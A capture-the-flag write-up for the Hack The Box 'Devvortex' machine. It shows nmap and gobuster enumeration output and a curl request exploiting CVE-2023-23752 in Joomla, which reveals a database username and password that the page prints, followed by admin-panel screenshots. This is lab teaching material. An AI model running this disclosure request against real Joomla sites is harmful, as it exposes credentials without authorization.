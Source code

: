 # Devvortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png" width="200" height="200">

---------------------------------------------------------------------------------------------------------------------

## Nmap 

`nmap -sC -sV devvortex.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: DevVortex
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Subdomain and directory enumeration 

#### Gobuster

I use wordlist `subdomains-top1million-20000.txt`. You need to install SecLists https://github.com/danielmiessler/SecLists

`gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -k`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://devvortex.htb
    [+] Method:          GET
    [+] Threads:         10
    [+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Found: dev.devvortex.htb Status: 200 [Size: 23221]
    Progress: 19966 / 19967 (99.99%)
    ===============================================================
    Finished
    ===============================================================

Directory enumerations for dev subdomain

`gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://dev.devvortex.htb/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
    /home                 (Status: 200) [Size: 23221]
    /media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
    /templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
    /modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
    /plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
    /includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
    /language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
    /components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
    /api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
    /cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
    /libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
    /tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
    /layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
    /administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
    /cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]                                                       
    Progress: 87664 / 87665 (100.00%)
    ===============================================================
    Finished
    ===============================================================

![image](https://github.com/zer00d4y/writeups/assets/128820441/7203ec9b-fa4f-449d-b59f-1bdb030b8591)

#### CVE-2023-23752

`curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`

![image](https://github.com/zer00d4y/writeups/assets/128820441/b72ce5f2-5931-4c2c-bbc5-3db0dc4b0376)

    lewis:P4ntherg0t1n5r3c0n##

![image](https://github.com/zer00d4y/writeups/assets/128820441/24711425-9456-47ee-b90b-41a1994b6b44)

![image](https://github.com/zer00d4y/writeups/assets/128820441/954a25aa-8759-42d0-9157-c2c8f26c75d5)

Systems -> Extensions

![image](https://github.com/zer00d4y/writeups/assets/128820441/e4cfe7ea-77bf-45b9-bff7-9f0ed98171de)

![image](https://github.com/zer00d4y/writeups/assets/128820441/dba615a3-ce46-420d-bdeb-d5957cc4e5f9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/ff6dcd8d-7218-4369-8e88-586c60bf182f)




